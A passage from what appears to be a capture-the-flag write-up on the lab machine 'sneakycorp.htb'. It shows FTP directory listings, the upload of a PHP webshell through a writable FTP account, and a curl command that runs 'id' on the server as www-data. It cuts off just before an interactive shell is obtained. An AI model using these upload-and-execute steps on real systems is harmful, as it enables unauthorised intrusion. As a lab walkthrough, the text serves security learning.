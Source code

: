 
In here, there’s a `dev` directory:

    
    
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxr-x    8 0        1001         4096 Jul 12 11:52 dev
    226 Directory send OK.
    

It contains the website as I’ve already enumerated:

    
    
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 0        0            4096 May 26 19:52 css
    drwxr-xr-x    2 0        0            4096 May 26 19:52 img
    -rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
    drwxr-xr-x    3 0        0            4096 May 26 19:52 js
    drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
    drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
    -rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
    drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
    226 Directory send OK.
    

I collected the three PHP files (`index.php`, `team.php`, and
`pypi/register.php`). None of them actually have any dynamic content.

#### Upload Webshell

It does turn out that this account can write here. I’ll upload a simple
webshell:

    
    
    ftp> put /opt/shells/php/cmd.php 0xdf.php
    local: /opt/shells/php/cmd.php remote: 0xdf.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    35 bytes sent in 0.00 secs (26.7656 kB/s)
    

I can trigger it and get execution:

    
    
    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=id"
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

There is clearly a cron cleaning up the dev directory, as the webshell will be
deleted quickly.

#### Shell

I’ll trigger the webshell to get an interactive shell:
